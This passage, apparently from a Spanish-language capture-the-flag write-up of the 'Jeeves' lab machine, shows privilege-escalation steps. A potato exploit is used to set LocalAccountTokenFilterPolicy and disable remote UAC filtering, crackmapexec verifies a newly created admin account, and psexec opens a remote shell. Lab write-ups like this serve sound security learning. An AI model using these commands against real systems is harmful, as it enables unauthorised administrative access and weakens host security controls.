     Local Group Memberships      *Administrators       *Users                
    Global Group memberships     *None                 
    The command completed successfully.
    ```
    
- Por ultimo nos faltaría retocar un ultimo componente del registro `LocalAccountTokenFilterPolicy`.

> *It should be noted that in order for the psexec to work the account needs to be part of the local administrator group and remote user account control should be disabled. This is governed by the “LocalAccountTokenFilterPolicy
” registry key which needs to be present on the system and to have a value of “1” (disabled).*
> 

```bash
potato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 9999
```

```bash
crackmapexec smb 10.10.10.63 -u "helix" -p  "helix123#$"

SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\helix:helix123#$ (Pwn3d!)
```

- Mediante `psexec` nos conectamos a nuestro nuevo usuario privilegiado con su password anteriormente establecida.

```bash
psexec.py WORKGROUP/helix@10.10.10.63 cmd.exe
```

![Untitled](https://github.com/Hexix23/WriteUps/blob/main/.gitbook/assets/Jeeves/Untitled%2031.png)
